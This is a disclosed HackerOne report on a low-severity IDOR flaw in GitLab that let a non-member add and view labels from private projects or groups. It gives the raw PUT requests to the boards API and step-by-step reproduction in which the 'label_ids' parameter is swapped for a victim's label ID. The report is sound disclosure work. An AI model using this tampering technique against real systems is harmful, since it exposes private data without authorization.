 # Add and Access to Labels of any Private Projects/Groups of Gitlab(IDOR)

## Report Details
- **Report ID**: 439729
- **URL**: https://hackerone.com/reports/439729
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-11-13T03:44:45.389Z
- **Disclosed**: 2019-09-19T19:25:06.817Z

## Reporter
- **Username**: indoappsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
**Summary & Description :
If you have a private project or private group then no non member should be able to access any information.But Adding Labels in your Private boards API request is vulnerable to IDOR attack which is leading to add private group/project labels and access it. 

##Vulnerable Request for Project :
```
PUT /[username]/[project_name]/boards/[board_id].json HTTP/1.1
Host: gitlab.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 178
Connection: close
Cookie: [Cookies]

{"board":{"id":857058,"name":"Development","labels":[{"id":,"title":"","color":"#428BCA"}],"milestone_id":null,"assignee":{},"weight":null,"label_ids":[[Label_ID]]}}

```

Vulnerable parameter : label_ids : Label_ID

##Vulnerable Request for Group :
```
PUT /groups/vijaykumar007Publicgroup/-/boards/848604.json HTTP/1.1
Host: gitlab.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 186
Connection: close
Cookie: [Cookies]

{"board":{"id":848604,"name":"Developmenthacked","labels":[{"id":,"title":"","color":"#F0AD4E"}],"milestone_id":null,"assignee":{},"weight":null,"label_ids":[label_ID]}}
```
Vulnerable labelID : label_ids


## Steps To Reproduce:
Take 2 different accounts to reproduce this issue.Also I am taking Project for reproduction. 
1.Login from Victim account and create a project.
2.Make the project private, don't add any member and try to remove all the public permission so it doesn't mixup any permissions.
3.Create a new label.(Victim_label,ID:12345)
4.Now login from Attacker account and try to access the victim project. 
5.You will notice that you are not able to victim project.
6.Now create a new project and go to labels.
7.Create a new label and go to boards.
8.Edit the Board and you will see label section.
9.Add label into the board and intercept the save request. 
10.The request would look something like above mentioned request. 
11.Change the labelID parameter to victim_label_ID in parameter "label_ids" and send the request. 
12.You will notice that the private label will be added into the board and you will be able to access it.
Same you can apply on Private groups too.


## Supporting Material/References:

  * List any additional material (e.g. screenshots, logs, etc.)

## Impact

Add and Access to Labels of any Private Projects/Groups of Gitlab(IDOR)

## Attachments
No attachments
